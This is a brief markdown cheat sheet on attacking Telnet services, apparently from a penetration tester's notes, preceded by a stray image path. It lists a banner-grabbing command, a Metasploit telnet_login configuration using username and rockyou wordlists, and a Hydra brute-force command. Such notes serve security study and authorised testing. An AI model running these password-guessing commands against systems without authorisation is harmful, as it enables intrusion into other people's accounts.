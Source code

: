 # Telnet

## Enumeration

### Banner Grabbing

##### telnet
```bash
telnet [IP]
```


---
---


## Exploitation

### Metasploit

##### telnet_login
```bash
use auxiliary/scanner/telnet/telnet_login
set RHOSTS [IP]
set USER_FILE [e.g., /usr/share/wordlists/usernames.txt]
set PASS_FILE [e.g., /usr/share/wordlists/rockyou.txt]
run
```

### Brute Force

##### Hydra
```sh
hydra -L [UserList] -P [PassList] [IP] telnet
```

